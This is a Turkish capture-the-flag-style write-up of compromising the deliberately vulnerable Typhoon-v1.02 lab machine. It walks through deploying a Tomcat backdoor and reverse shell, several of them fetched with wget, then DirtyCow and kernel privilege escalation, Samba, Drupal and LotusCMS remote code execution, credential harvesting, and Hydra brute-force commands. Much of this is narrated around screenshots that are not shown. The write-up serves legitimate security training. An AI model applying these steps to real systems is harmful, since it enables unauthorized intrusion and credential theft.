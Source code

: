 
---
+layout: post
+title: "Typhoon-v1.02 WRITEUP"
---

***Hazırlayanlar: [Alp Eren Işık](https://github.com/isikerenalp)  [Feyzi Yuşa Karababa](https://github.com/Fykarababa) ***

***
PRISMA CSI tarafından hazırlanan Typhoon-v1.02 makinesini elimizden geldiği kadar çözmeye çalıştık ve sizler için ufak bir writeup hazırladık. Biz çözerken çok zevk aldık umarım sizler içinde zevkli bir writeup olur.

Hazırlayanlar: Alp Eren Işık , Feyzi Yuşa Karababa
***

# `NMAP`
  İlk aşamada Nmap ile port taraması yaparak çalışan servisleri ve versiyonları öğrendik.
  Devamında bu servisler ve versiyonları üzerinden mevcut exploitleri araştıracağız.

  ![nmap](nmap.png)

# `Apache Tomcat`
  Metasploit kullanarak **use auxiliary/scanner/http/tomcat_mgr_login** scanner kullanarak tomcat parolasını bulmaya çalışıyoruz.

  ![](msf1.png)

  Aşşağıda gördüğünüz gibi tomcat username ve password bulmuş oluyoruz

  ![](msf2.png)

  Daha sonra **10.242.24.216:8080/manager** adresine giderek bulmuş olduğumuz **username** `(tomcat)` ve **password** `(tomcat)` ile giriş yapıyoruz.

  ![](tomcat_tomcat.png)

  Giriş yaptıktan sonra tekrar Metasploitimize geri dönüyoruz ve **msfvenom** ile backdoor oluşturuyoruz.

  ![](msf3.png)

  Daha sonra oluşturmuş olduğumuz bu backdooru girmiş olduğumuz **tomcat** üzerinden **deploy** ediyoruz

  ![](tomcat_deploy.png)

  Deploy ettikten sonra tekrar Metasploitimize gelerek `use exploit/multi/handler` yazıyoruz daha sonra modülümüze bağlanacağımız backdoor payloadımızı ve bilgilerimizi giriyoruz.

  Artık tarayıcımızdan `10.242.24.216:8080/manager/typhoon/lyrzruiw.jsp` adresine girebiliriz.


  ![](msf4.png)

  ![](tomcat_backdoor.png)

  Bu aşamadan sonra sunucuda **ROOT** olmaya çalışacağız.


# `Yetki Yükseltme - 1 (dirtycow)`
    https://www.exploit-db.com/exploits/40616
  Backconnect olduğumuz makinemizde **C** kodunu derleyemediğimiz için derleme işlemini uzak sunucuda gerçekleştirmeye karar verdik.

  Uzak sunucumuzda `wget https://www.exploit-db.com/raw/40616/index.html` ile komutları çektik ve uzak sunucumuzda bunu derledik. Daha sonra Typhoon makinesinde `wget https://sunucu_adresi/prisma` diyerek derlenmiş **C** kodunu makinemize yüklemiş olduk. Derleyip wget ile çekmiş olduğumuz exploitimizi makinemizde çalıştırdık ve **ROOT** olduk. Son olarak `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` komutunu girerek exploitimizin stabil olmasını sağlayarak sunucunun crash olmasını engelliyoruz. :)

  ![](msf5_dirtycow.png)

# `Yetki Yükseltme - 2 (Ubuntu Kernel Exploit)`
    https://www.exploit-db.com/exploits/37292/
Yukarıda anlatmış olduğumuz işlemleri bu exploitimiz ile de uygulayarak `wget https://sunucu_adresi/ubn` ile çekmiş olduğumuz exploitimizi makinemizde çalıştırarak  **ROOT** oluyoruz. :)

![](msf5_ubuntu_exploit.png)

# `Samba smbd 3.X - 4.X (ROOT)`
    Github Code = https://github.com/rapid7/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb

Çalışan versiyonda bir exploit olduğunu öğrendik. Githubda bulduğumuz kodu `wget` ile **/opt/metasploit/modules/exploits/linux/samba/** dizini altına **is_known_pipename.rb** ismiyle kaydettik. Daha sonra metasploit üzerinden exploiti kullanarak makinemizde **ROOT** olduk. :)

![](samba.png)  

    NOT: Eğer bu aşamadan sonra root olmaz ise devamında dirtycow ile rootlayabilirsiniz.

# `Phpmyadmin Username && Password`
Sunucumzuda root olduktan sonra içeriye bir de shell atalım dedik. Shellimizden dizinleri ve dosyaları gezerken `/var/www/html/dvwa/config/config.inc.php` dosyası içerisinde **phpmyadmin** kullanıcı adı ve parolasını bulduk.

![](phpmyadmin1.png)

![](phpmyadmin2.png)

![](phpmyadmin3.png)

# `Kullanıcı Adı ve Parolası`
Shellimizi attıktan sonra bir de mongoadmin dikkatimizi çekti ve biz de  `http://192.168.43.114/mongoadmin/` adresine gittik.

**credentials** Bir değişiklik yapmadan bu şekilde aratıyoruz.

![](mongoadmin1.png)

**creds (2)**

![](mongoadmin2.png)

Kullanıcı adı ve parolasını öğrenmiş olduk.

![](mongoadmin3.png)

URL= `http://192.168.43.114/mongoadmin/index.php?db=credentials&action=listRows&collection=creds`

**Username** : `typhoon` && **Password** : `789456123`

![](login.png)


# `PostgreSQL DB 9.3.3 - 9.3.5 Exploit ile Dosya Okuma`
Çalışan PostgreSQL sürümünde dosyaları okumamıza imkan sağlayan bir exploit olduğunu farkettik. ve  Metasploitimiz ile işe koyulmaya başladık :)

    auxiliary/admin/postgres/postgres_readfile

    Not: 'exploit' yerine 'set RFILE ../okunacak_dosya' komutu ile dosyaları okuyabilirsiniz

![](postgresql_read-file.png)


# `Drupal-8 RCE`
***
view-source:http://192.168.1.60/drupal diyerek drupalın sürümünün 8 olduğunu öğrendikten sonra aklımıza Drupal-8 de bulunan RCE geldi.

Drupal RCE CVE-2018-7600 : https://www.exploit-db.com/exploits/44448/  

***
Drupalın **register** bölümünde mevcut olan `RCE` zaafiyeti.

![](drupal.png)

Bunun dışında şöyle bir yöntem izlenebilir , drupalın default olarak config dosyası **sites/default/settings.php** de bulunmakta. Bunu `RCE` açığı ile okuyup database username ve password bilgileri alınıp phpmyadmine giriş yapılabilir.

![](drupal2.png)

**NOT:** `Post olarak gönderdiğimizde ilk olarak shell atmaya çalıştık fakat drupalın dizininde yazma izni yoktu. Ardından pwd komutu ile bulunduğu dizini öğrendik. Sonra var/www/html dizininde yazma izni olduğunu gördük ve shellimizi yükledik. :)`

# `LotusCMS RCE Exploit`
    use exploit/multi/http/lcms_php_exec
    https://www.exploit-db.com/exploits/18565/
  Sistemin kullandığı CMS yazılımının LotusCMS olduğunu öğrendik ve google'da kısa bir araştırma yaptıktan sonra **RCE** exploitinin olduğunu gördük. Daha sonra kullanacağımız exploiti ve bilgilerimizi girdikten sonra `exploit` diyerek çalıştırıyoruz.

![](lotuscms.png)

# `Brute Force ile Parola Tespiti`
***
  Burada Hydra ile **SSH** ve **FTP** 'ye brute force yaparak parolayı bulduk.

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ssh

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ftp
***
`SSH`

![](hydra-ssh.png)

`FTP`

![](hydra_ftp.png)
